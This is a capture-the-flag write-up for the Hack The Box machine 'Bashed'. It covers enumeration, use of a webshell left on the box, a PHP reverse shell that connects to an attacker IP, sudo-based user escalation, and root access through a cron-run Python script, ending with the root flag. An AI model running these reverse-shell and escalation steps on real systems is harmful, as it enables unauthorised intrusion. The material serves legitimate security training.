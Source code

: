 # Bashed
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following
```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-19 10:12 CET
Nmap scan report for 10.10.10.68
Host is up (0.040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```
Here we can see that the running operating system is Ubuntu.  
Since this is the only port available let's dig deeper into it.  
Lets' start by poking around, when we hit the site we see a page containing:  
*phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!*  
So, it seems like the creator of this box already uploaded a webshell for us, all we need to do is actually the location of this shell.
So, let's try to enumerate port 80 with gobuster and examine the results.   
```
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/server-status        (Status: 403) [Size: 299]
```
If we visit the [Arrexel GitHub Repo](https://github.com/Arrexel/phpbash) (URL disclosed inside the site), we can see that this webshell is called phpbash.php.  
So, let's go through all this directory and see where phpbash.php is located.  
as we can easilly discover phpbash is available by hitting http://10.10.10.68/dev/phpbash.php.  
Now we have accesso to this box as www-data.

## User
First thing first we want to update our existing webshell with a real reverse shell.  
Since we cannot execute the revershe shell directly from the prompt, let's download a file containing the following reverse shell into a file and then execute it:
```
<?php
$sock=fsockopen("10.10.16.41",1234);exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
download this with wget in a writable folder and execute this via php, and as we can se we do get get a shell as www-data.
```
root@kali:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.68] 59562
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
Now that we are logged in as www-data, we can quickly check our capabilities.
First thing first, let's enumerate sudo.
```
www-data@bashed:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
Now we can easily escalate to scriptmanager and see if we can escalate privileges from there.
```
www-data@bashed:/var/www/html/uploads$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/uploads$
```

## Root
Now, since the name of this user seems to refer to a scripting user, let's find files owned by him.
```
scriptmanager@bashed:/var/www/html/uploads$ find / -user scriptmanager | grep -v proc                                      
find: /scripts                                      
/scripts/test.py                                          
'/root': Permission denied                          
find: /home/scriptmanager                           
/home/scriptmanager/.profile                        
/home/scriptmanager/.bashrc                         
/home/scriptmanager/.nano                           
/home/scriptmanager/.bash_history                   
/home/scriptmanager/.bash_logout
```
Now, if we switch to /scripts directory we can see a simple script ```test.py``` that write text to ```test.txt```.  
Now, if we inspect dates/permissions with a simple ls, we can see the following:
```
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 19 01:47 test.txt
```
the file test.txt gets written every one minute and the owner/groop is root:root, so we can suppose that there is a cronjob that is writing test.txt each minute.  
If we edit test.py, we can set a python reverse shell, open a listener on our local machine and wait for the shell to pop up.  
```
root@kali:~/Documents/HTB/Boxes/Bashed# nc -lvnp 8083
listening on [any] 8083 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.68] 55988
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```
